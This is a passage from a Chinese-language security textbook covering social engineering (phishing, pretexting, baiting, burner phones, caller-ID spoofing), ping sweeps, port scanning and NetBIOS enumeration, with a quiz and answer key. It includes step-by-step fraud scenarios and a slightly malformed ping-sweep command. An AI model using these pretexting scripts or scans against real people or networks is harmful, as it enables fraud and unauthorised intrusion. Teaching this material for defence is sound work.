    

    **图 5.3**：钓鱼示例

*   **短信钓鱼**：基于目标通过看起来真实的短信或类似信息服务提供的恶意链接。关于服务过期的短信和充值的链接可能包含一个指向窃取支付信息的页面的链接。

*   **网页钓鱼**：通过为某些实际服务或业务创建看起来真实的网页，并让目标用户在这些页面上执行操作。一个非常原始的例子是最近的一系列攻击，攻击者成功地在互联网上发布了虚假的客服电话，导致服务的实际用户在以为与真实客服交谈的情况下拨给了黑客。另一个常见的例子是页面将目标用户重定向到社交或邮件网站的登录页面，以身份验证为借由，向用户展示相似的页面以捕获其登录信息。

*   **鱼叉式钓鱼** 是一种更具针对性和方向性的钓鱼攻击。其主要区别在于，鱼叉式钓鱼是针对特定目标的，而不是试图在大用户群体中碰运气。因此，通信内容在彻底研究后会根据目标用户进行定制。这使得这项工作变得更加枯燥，但可能提供更高的成功率。

    

    **图 5.4**：假的恶意软件扫描

*   **恐吓软件**：这涉及向目标发送虚假警报和警告，并提供相应的软件解决方案。这些软件大多数时候是恶意软件，害大于利。恐吓软件主要以网站弹窗的形式出现，包含指向恶意软件下载或相关网站的链接。

    

    **图 5.5**：恐吓软件

*   **水坑攻击**：这是另一类针对性攻击。攻击者研究目标的浏览习惯，并通过其中一个受信任的源投放恶意软件。这种技术的成功率更高，因为目标会在熟悉的网站上放松警备，因此让让他们点击链接或诱骗他们下载恶意软件相对容易。

    水坑攻击涉及寻找目标访问的网站中的漏洞。一旦发现漏洞，攻击者就会将恶意代码注入网站中，准备好交付给目标。另一种变体是攻击者建立一个虚假网站并引导目标在其上操作。

    

    **图 5.6**：水坑攻击

*   **假设托辞**：假设托辞涉及冒充合法权威机构或某种场景来接触目标并获取信息。假设托辞的程度取决于场景和所需的信息。这可以再次局限于在线虚拟世界或物理世界中的冒充。

    例如，攻击者可以创建一个虚假的社交账号在在线上与目标互动。或者，攻击者可以假装成面试候选人，以获得对组织设施的物理访问。在欺骗过程中，建立和维护信任的核心原则至关重要，因为不能让目标在攻击阶段的任何时候产生怀疑。

    假设 Bob 想在 Adams 家的桌面电脑系统中安装一个硬件键盘记录器。Bob 知道 Adam 使用宽带互联网连接，布线穿过该区域到达分配点。某一天，Bob 通过损坏线路切断了 Adams 家的连接。假设 Adam 注意到了问题，Bob 冒充成 ISP 技术人员，并以进行维护工作的借口访问 Adam。在获得访问后，他将键盘记录器安装到桌面电脑中，并修复了他故意造成的损坏以恢复互联网连接。Adam 很高兴，因为连接恢复工作了，并且完全没有意识到 Bob 现在可以访问他在桌面上输入的所有击键记录。

*   **诱饵攻击**：诱饵攻击利用目标用户的贪婪和好奇心。诱饵攻击通常没有针对性，因为它们更多是基于机会的场景，所有责任都在于目标是否咬钩饵。因此，攻击者倾向于在大群体或大范围内传播诱饵以获得最大效果。这种攻击也可以在虚拟或物理世界中进行。

    

    **图 5.7**：使用恐吓软件进行诱饵

    在物理世界中，攻击者可以通过在公共场所留下含有恶意内容的 DVD ROM 或 U 盘，并等待好奇的人使用它们。另一种方法可能是放在黑市出售的设备或超市外的免费样品中隐藏恶意内容。

    在在线网络上，诱饵通常借助于引人注目的横幅，提供难以置信的优惠或承诺有趣的文章。另一种完全不同的方法是恐吓目标去浏览或下载内容，这与使用恐吓软件的方式类似。

*   **身份盗窃**：这与假设托辞非常相似。唯一的区别是身份盗窃涉及冒充真人。这主要是通过伪造的身份文件完成的。攻击者通常从伪造或获取目标的基础文件开始，例如公用事业账单。随后是一系列的文件创建和更新迭代，直到创建出如信用卡之类的所需文件。这些伪造的文件随后可以用于财务诈骗，或简单地损害某个人或组织的声誉。




**图 5.8：** 身份盗窃

- **内部攻击**：当系统的授权用户之一变成攻击者时，就会发生内部攻击。可以说，这是企业网络面临的最大威胁之一。在这种情况下，攻击者完全了解系统内部情况并处于网络内部，因此已经绕过了大多数安全措施。

  内部攻击主要包括数据窃取和在应用程序中安装后门（形式为远程管理服务），或在未授权给用户的服务中放置凭据。

  内部攻击的其他情景可能是系统用户为了某些物质利益，直接向第三方披露安全措施及其绕过机制。

- **窃听与侧肩窥视**：窃听是指倾听自己未参与的对话的行为。这可以通过物理上出现在对话的可听范围内来实现，也可以通过录音机、网络拦截器、键盘记录器等手段拦截对话来实现。

  侧肩窥视（偷窥）是指人在执行某些私人或机密活动（如登录服务）时，物理上观察人在系统上输入的内容。这是通过攻击者处于输入媒介（如键盘）的视线范围内实现的。这种方法的高级手段可以使用网络咖啡馆中指向键盘的高分辨率相机。

- **翻垃圾桶**：翻找其他用户弃物的过程，希望能找到有价值的信息。这包括搜索垃圾、粉碎材料以及丢弃的手机和硬盘等数字硬件，以寻找可恢复的信息。

  如果组织的文档或硬件生命周期政策不包含适当的丢弃规则，翻垃圾通常会挖掘出大量信息。数据恢复软件可以从丢弃的存储设备中恢复数据。旧路由器和服务器可以提供硬件和网络设置的思路。同样，丢弃的文件副本也可以被重复利用，例如使用丢弃的身份证明副本进行身份盗窃，或使用信用卡账单了解其消费习惯，并在对用户进行钓鱼攻击时使用。

## 社会工程工具

数字时代的到来为与世界上任何地方的人们进行通信和互动提供了无限的可能。顺着这种增长，许多工具正被使用，从简单的消息服务到完整的数据分析器应有尽有。让我们在这里讨论其中一些工具：

- **消息传递应用：** 数字世界充斥着各种消息应用程序，你可以向任何人发送短信。最初的 `SMS` 服务已演变为更复杂的电子邮件以及诸如 `WhatsApp` 和 `Hike` 这样的聊天应用，这些应用提供了文件传输、位置共享等大量功能。通过这些媒介与人联系，只需要攻击者获取其联系信息即可。

- **社交媒体：** 从目标的社交个人资料和活动中，可以找到关于目标的更个性化的账户信息。许多公司会在社交媒体上考察候选人，以确保他们符合自己的工作文化。由于人们倾向于自由且公开地分享各种信息，这种媒介为黑客提供了极佳的机会，让他们能够了解目标、建立联系，并在某些情况下在这些媒介本身的范围内执行攻击。

- **一次性（烧毁）手机：** 这些设备在使用后可以轻松丢弃，而不会留下追溯所有者的痕迹。这些手机是用现金或礼品卡购买的，且使用时间不长。

    - 随着社交媒体应用程序深度渗透大众，网络钓鱼攻击中的社交媒体利用正变得越来越流行。
    - 人们倾向于给出各种细节，包括他们的兴趣和行踪，这些在网络钓鱼攻击中很容易被利用。
    - Adam 是一个热衷的社交媒体用户，喜欢在社交媒体网站上发布他所有的日常活动。对于公开展示自己的兴趣和生活事件，他没有任何保留。他最近在账户上发布了一些照片，那是他在国外旅行期间入住的酒店。
    - Bob 制定了一个计划利用这些信息为自己服务。他使用一部烧毁手机拨给 Adam，假装是从酒店打来的电话。为了建立信任，他重复了 Adam 已经在社交媒体上公开的入住信息。现在 Bob 开始通知 Adam 其在结账时支付出现了一些问题。Bob 告诉 Adam 没关系，他只需要 Adam 支付时使用的信用卡信息，以便他纠正这一情况。Adam 几乎没有怀疑，最终提供了自己的信息。Bob 立即执行了某些交易，并向 Adam 索要确认码，Adam 毫无防备地提供了确认码。
    - 直到 Bob 丢掉烧毁手机很久之后 Adam 才收到信用卡账单，他完全不知道自己已经被骗了。

- **一次性号码：** 就像一次性设备一样，还有在线服务允许你创建一次性号码，只要稍加留心，这些号码可以在不留下任何追溯到实际用户的情况下创建。此外还有服务提供一次性号码来接收 `OTP` 和注册码等信息。这本质上可以用于绕过许多网站的号码验证。

    

    **图 5.9：** 烧毁网络应用程序

- **一次性邮箱：** 这些是与一次性号码类似的临时邮箱。这些服务在原则上不需要用户注册即可维护隐私，并可以在有限时间内（通常在一个会话内）发送/接收电子邮件。

- **主叫 ID 伪造：** 另一种隐藏身份或冒充他人的方法是通过主叫 ID 伪造。有很多在线服务允许呼叫者将主叫 ID 上显示的号码更改为自定义号码。通过 `Truecaller` 等服务，攻击者倾向于使用他们喜欢的名称来保存号码以增加创意。

- **硬件设备：** 录音设备、间谍摄像头等有助于研究目标的行为。从这些设备收集的信息也可以为攻击者提供筹码。

- **软件：** 各平台提供的可用信息量大得令人难以承受，人类无法在信息仍然有效时及时审阅。这就是技术发挥关键作用的地方。随着分析和关联软件的兴起，分析数据、创建链接、托管页面以及选择正确的目标和策略变得既简单又快速。因此，这里的软件可以分为大类：

    1. **被动型：** 这些是网络爬虫和数据分析工具，用于收集和处理信息以发现模式、有意义的互动和相关细节。例如，自定义的网络爬虫可以用于浏览目标的完整社交媒体简介，并递归地浏览目标与之互动的任何人的简介。还可以设置脚本，当目标在平台上活跃或执行特定操作时发送通知。
    2. **主动型：** 创建和运行虚假社交媒体配置的自动化机器人、自动化网站复制器、语音伪造工具等更直接地参与黑客。这些工具针对输入的信息采取行动，与人类对应者相比，效率高得多。



**图 5.10：** 社会工程工具包

## 社会工程对策措施

- **意识与警惕：** 应对任何社会工程攻击最有效的防御措施是保持意识和警惕。信用卡和手机银行等产品拥有安全指南和用户参考文档，提供了有关如何安全使用这些产品以及哪些信息是隐私、哪些信息可以披露的详细信息。

    - 即使在亲密群体之间分享隐私或机密信息也会让信息面临风险。
    - 一个非常通用的原则是：凡看起来好得离谱的可能都不是。

- **软件对策措施：** 有许多浏览器扩展可以防止弹出广告和恶意软件下载。这些软件通过在遇到恶意软件威胁时提供视觉警告，在后台防御恶意软件。

    

    **图 5.11：** Cloudphish 扩展正在运行

    一些机构还开发了反钓鱼网络扩展。这些扩展尝试根据域名识别网站内容，并拥有一个任何报告的钓鱼网站的库，以警告用户。

    

    **图 5.12：** Netcraft 信息弹窗

- **终端用户培训：** 对于企业来说尤为必要，定期的终端用户培训和意识会议有助于保持对安全策略及其遵守的关注。一封关于组织安全策略的一次性邮件几乎无法解决任何问题。需要结合现实场景进行适当的互动式培训，让终端用户理解这些门路。

## 结论

既然我们已经熟悉了社会工程学，那么在下一章中理解恶意软件负载传递技术应该并不困难。社会工程将成为几乎所有黑客方法论的一部分，无论是试图获取网络内部信息，还是想窃取基础用户凭据以尝试权限提升。

然而，在转向其他方法之前，我们将在下一章首先熟悉最常见的攻击向量——网络。

## 测试你的理解

1. **社会工程学可以用于以下哪项？**

    1. 收集系统密码
    2. 收集用户的财务信息
    3. 引导用户点击恶意链接
    4. 以上所有

2. **翻垃圾桶涉及：**

    1. 翻阅丢弃物品
    2. 漫游寻找开放的 `Wi-Fi`
    3. 翻进垃圾堆
    4. 通过偷看他人肩膀收集信息

3. **社会工程工具包可以帮助：**

    1. 从服务器将密码复制到本地机器
    2. 检测发送到目标移动设备上的 `OTP`（一次性密码）
    3. 发起社会工程攻击
    4. 探测钓鱼攻击

4. **以下哪种方法可以避免通过网络浏览器成为社会工程攻击的目标？**

    1. 安装第三方工具栏
    2. 安装弹出广告拦截器
    3. 为浏览器分类为有害的页面添加例外
    4. 每日清除浏览器缓存和本地存储

5. **燃烧器服务用于：**

    1. 为燃气灶具提供维护
    2. 提供敏感材料的处置服务
    3. 提供维修喷灯的工具
    4. 提供一次性电话号码

## 答案

1. **d**
2. **a**
3. **c**
4. **b**
5. **d**

# 第 6 章：网络扫描

## 引言

网络作为所有通信的媒介构成了任何 IT 基础设施的核心。随着时间的推移，这种媒介已从硬线演变为无线，并从每秒传输几个比特演变为更快的速度。网络可以通过多种方式被利用，通常通过其传输的数据包提供大量信息。

## 结构

本章将涵盖以下主题：

- 计算机网络概念
- 网络层
- `TCP` 和 `UDP` 连接

## 目标

本章旨在提供计算机网络配置、分层和组件的知识。它涉及获取攻击者计划入侵的网络的各种方法。在本章结束时，你应该能够区分不同类型的计算机网络，理解它们的组成，并熟悉网络扫描技术的工作原理。

## 计算机网络构造

让我们假设攻击者已成功与网络建立连接。下一个逻辑步骤是发现所有连接到网络的设备，并制定行动计划。网络扫描是收集有关网络配置和目标系统提供服务的信息的行为。此过程旨在建立以下：

- 活跃主机
- IP 地址和开放端口
- 运行在端口上的服务

在深入研究网络嗅探之前，我们需要复习一些基础术语和概念：

- **网络接口卡：** 这是计算机中用于连接到网络的硬件组件。这允许系统通过 Internet 协议等协议，通过 `Ethernet`、`Wi-Fi`、`蓝牙` 等标准进行交互。

- **OSI 模型：** 开放系统互连模型为任何两个想要通过标准协议通信的系统提供了一个标准的分层架构。`OSI 模型`在实际硬件或配置之上提供了抽象，而同时提供了跨越不同通道的互操作性。`OSI 模型`包含七层，每层都处理通信中的特定任务，并与紧邻相邻（上方和下方）的层进行交互。

- **TCP/IP 协议栈：** `TCP/IP 协议族`是一组允许在具有各种硬件和软件的不同网络进行通信的协议。该栈以四层的形式可视化。`TCP/IP 协议栈`的每一层都将上一层的数据封装到其`协议数据单元 (PDU)`抽象中，并将数据包转发到下一层。

`TCP`标志指示连接的特定状态，每个标志对应 1 位信息。标志位如下：

1. **SYN (同步)：** 客户端与主机之间的首次通信，用于同步两者之间的序列号。
2. **ACK (确认)：** 用于确认成功接收到消息。
3. **FIN (结束)：** 用于请求优雅地终止连接。
4. **RST (重置)：** 如果收到的数据包是意外的，用于终止连接。
5. **PSH (推送)：** 用于通知接收者处理缓冲区中的接收数据包，而无需等待缓冲区填充。
6. **URG (紧急)：** 用于通知应用层在处理任何其他数据包之前处理所述数据包。

- **用户数据报协议：** `UDP`或用户数据报协议是 Internet 协议族的核心协议之一。它是一种无连接协议，不需要通过握手建立连接。相反，客户端和服务器之间仅进行简单的请求/响应交换。这同时也意味着协议在消息传递、重复或接收顺序方面不提供服务保证。

### 活跃主机发现

攻击者进入目标网络后执行的第一步是发现网络上的活跃主机。这些系统一旦建立了漏洞，攻击者就可以针对这些系统。活跃主机发现是通过使用数据包查询网络并分析响应完成的。

**Ping 实用：** `Ping`是一种用于检测`IP 网络`上系统可达性的软件实用程序。`ping`工具通过向主机发送`Internet 控制消息协议 (ICMP)`显回请求并接收显回应。在此过程中，该工具可以判断系统的可用性、数据包的往返时间等。

**Ping 扫描：** 对网络中的每个可能的主机执行`ping`命令可能是一项枯燥的工作，因此`ping 扫描`派上了用场。`Ping 扫描`是同时探测多个系统以获取 ping 响应的行为。它通常涉及在确定子网后，通过递增循环传递 IP 地址。例如，一个递增数字的 Windows for 循环命令如下：

```
for %%parameter in (start,step,end) do command
```

这可以通过输入我们想要 Ping 的子网的起始和结束位置来遍历网络。例如，您想扫描从`10.5.252.1`到`10.5.252.255`的 IP 范围；命令如下：

```
for %i in (1,1,255) do @ping -n 1 -w 10.5.252.1.%i.
```

也可以为其他操作系统的`shell`构建类似的命令。大多数现代防火墙都有阻止`ping 扫描`的规定。然而，仍然有方法可以提取周围的信息。尝试利用地址解析中的`ARP 缓存`。

`Nmap`是一种辅助网络扫描的命令行工具，并提供了多种扫描选项，如 IP 范围、子网掩码等。它可以通过向目标系统或网络中的一组系统查询不同的命令集，来发现网络系统上运行的主机和服务。



**图 6.7：** Nmap 界面

`Zenmap`是`Nmap`工具的 GUI 版本。它提供了一个交互式用户界面，用于发送数据包并分析来自目标系统或网络组系统的响应。



**图 6.8：** Zenmap 界面

`Hping3`也是一种开源网络数据包生成工具，可查询和分析网络流量。



**图 6.9：** HPing 接口

`Angry IP Scanner`是一款跨平台的、基于 GUI 的网络扫描工具。它可以扫描本地网络以及通过互联网扫描网络范围。此外，它允许用户以多种格式导出结果，并提供命令行界面。



**图 6.10：** Angry IP Scanner 界面

## 端口扫描与服务发现

一旦攻击者建立了 IP 地址，下一步就是确定开放的端口以及在上面运行的服务。探测端口及其服务之所以可行，是因为存在如`SSDP`等网络协议，这些协议允许服务发现并提供网络服务信息。有多种机制和工具提供不同程度的信息，其中一些如下：

### TCP 扫描

作为一种协议，如果端口运行`TCP`，那么它注定具有特定的行为（其他协议也是如此）。`TCP`扫描通过发送不同组合的协议栈包并监听其响应，利用这种行为来检测那些在`TCP`上开放运行的端口。



**图 6.11：** TCP 扫描

### UDP 扫描

`UDP`是一种无状态协议，因此没有三次握手。当`UDP`端口关闭时，服务器会响应`ICMP`端口不可达（Port unreachable）消息。



**图 6.12：** UDP 扫描

`Telnet`是一种应用协议，为通过网络（通常通过端口`23`）连接的设备之间的通信提供命令行界面。



**图 6.13：** 用于端口扫描 Telnet 界面

上一节讨论的`Nmap`/`Zenmap`工具也可用于执行端口扫描。



**图 6.14：** 用于端口扫描的 Zenmap 界面

`Hping3`工具也配备了对网络中的机器执行有效端口扫描的命令。



**图 6.15：** 用于端口扫描的 Hping3 界面

### 标识纹抓取

指纹抓取通过分析端口生成的响应来确定在该端口上运行的服务或应用程序。

本章列出了攻击周期中的枚举阶段。你将熟悉枚举在攻击周期中的重要性。我们还将涵盖不同类型枚举技术的基础知识及其最终结果。本章也将触及用于枚举的常用工具。

在本章结束时，你应该能够利用从侦察和网络扫描中收集的信息来规划枚举阶段，对不同形式的枚举有充分的理解，并对网络上的基本服务进行枚举。

## 作为网络扫描后续步骤的枚举

一旦攻击者进入了目标网络并建立了活动连接，下一步就是寻找标准的系统服务，这些服务为网络、共享和用户访问管理等基础操作提供支持。枚举通过收集系统配置信息来利用这些服务。通常会尝试使用系统默认值和通用字典作为输入，以获取对`LDAP`和`WordPress`等服务的更深层访问权限。

为了了解我们将通过枚举尝试实现的目标，让我们先了解日常生活中执行的各种形式的枚举。

将其想象成在超市购物。为了高效且快速，最好预先准备好一份购物清单。通过将购物物品分类分组可以提高其有效性。另一个可以考虑的方面是安排去超市的时间，以充分利用某些折扣方案，或简单地避开高峰。采取结构化的购物方法将：

- 在穿过超市不同区域时节省时间，因为你已经知道了自己的目标区域。
- 由于清单中物品的分类，避免了多次前往同一区域。
- 由于折扣和物品配额节省了资金。
- 由于你已经有一份深思熟虑的清单，避免了你因为忘记某些物品而多次往返购物中心。

渗透测试中的枚举遵循相同的概念。你有一个通往网络的大门（连接），必须在尽可能少的交互中使其价值最大化。为了有效地做到这一点，你必须有条理、精确且详尽。


**图 7.1：** 枚举流程

在随后的章节中，我们将介绍在目标网络或系统上可能的各种枚举类型，以及通过它们可以获得的信息。

## NetBIOS 枚举

**网络基本输入输出系统**或`NetBIOS`是通过`NBT`协议在`TCP`之上的服务（而非协议），允许计算机系统通过网络名称解析和注册在网络上进行通信。它提供以下三种服务：


# NetBIOS 枚举

*   **命名服务**：提供名称注册和组成系统的解析。
*   **数据报服务**：在可靠性不是首要的情况下提供快速、无连接传输。运行在 `UDP` 端口 `138` 上。
*   **会话服务**：用于两个系统之间的可靠连接。运行在 `TCP` 端口 `139` 上。

NetBIOS 枚举可以提供以下信息：

*   域内的系统列表
*   文件共享
*   打印机共享
*   用户名
*   策略
*   密码

NetBIOS 名称是 16 个 ASCII 字符的组合。微软将主机限制为前 15 个字符，最后一个字符保留给 NetBIOS 后缀或 NetBIOS 结束字符。后缀描述了服务或名称记录类型。一些常见的后缀包括：

| NetBIOS 后缀 | 类型 | 描述 |
| :--- | :--- | :--- |
| `<00>` | 唯一名称 | 工作站服务名称 |
| `<03>` | | 消息器服务名称 |
| `<1B>` | | 域主浏览器名称 |
| `<06>` | | 远程访问服务 |
| `<20>` | | 文件服务 |
| `<21>` | | 远程访问客户端 |
| `<1D>` | | 主浏览器 |
| `<1F>` | | NetDDE 服务 |
| `<BE>` | | 网络监控代理 |
| `<BF>` | | 网络监控工具 |
| `<00>` | 组名称 | 工作站服务 |
| `<1C>` | | 域组名称 |
| `<1D>` | | 主浏览器名称 |
| `<1E>` | | 浏览器服务选举选举 |

**表 7.1:** NetBIOS 后缀

`SuperScan`: `SuperScan` 是一个免费的基于连接的端口扫描工具，用于检测目标系统上的 `TCP` 和 `UDP` 端口，并对其进行枚举以获取网络信息。



**图 7.2:** `SuperScan` 端口扫描报告

`SuperScan` 扫描接口提供了基于 IP 地址/主机名或地址范围的一系列扫描选项。结果也可以以 HTML 格式查看。

